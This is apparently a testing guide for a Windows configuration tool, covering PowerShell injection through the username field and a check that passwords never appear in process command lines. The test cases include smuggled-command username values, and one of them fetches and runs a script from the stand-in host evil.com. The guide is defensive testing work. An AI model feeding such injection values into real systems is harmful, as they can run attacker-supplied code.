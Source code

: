 
## Testing Instructions

### Test 1: PowerShell Injection Prevention

**Objective:** Verify that malicious usernames cannot execute arbitrary code

**Test Cases:**

```csharp
// Test Case 1: Simple injection attempt
string maliciousUsername1 = "test'; Write-Host 'PWNED'; #";

// Test Case 2: Command execution
string maliciousUsername2 = "user'; Invoke-Expression (New-Object Net.WebClient).DownloadString('http://evil.com/script.ps1'); #";

// Test Case 3: Backtick escape
string maliciousUsername3 = "test`; Write-Host 'INJECTED'";

// Test Case 4: Variable injection
string maliciousUsername4 = "test$($env:COMPUTERNAME)";

// Test Case 5: Nested quotes
string maliciousUsername5 = "test' + (Get-Process) + '";
```

**Expected Results:**
- All should fail gracefully with "Failed to resolve SID for user" error
- No code execution should occur
- Logs should show the failed attempt
- No security warnings in Event Viewer

**How to Test:**
1. Open ConfigTool
2. Navigate to Service Account page
3. Enter malicious username
4. Click "Grant Logon Right"
5. Verify it fails with appropriate error message
6. Check logs: `C:\FileRelay\logs\`
7. Verify no suspicious activity in Task Manager during execution

---

### Test 2: Password Not Visible in Process List

**Objective:** Verify that passwords never appear in command-line arguments

**Test Setup:**
```powershell
# In one PowerShell window, monitor processes:
while ($true) {
    $processes = Get-CimInstance Win32_Process | 
        Where-Object {$_.CommandLine -like '*password*'} | 
        Select-Object Name, CommandLine
    
    if ($processes) {
        Write-Host "[$(Get-Date)] PASSWORD DETECTED IN COMMAND LINE!" -ForegroundColor Red
        $processes | Format-List
    }
    
    Start-Sleep -Milliseconds 100
}
```
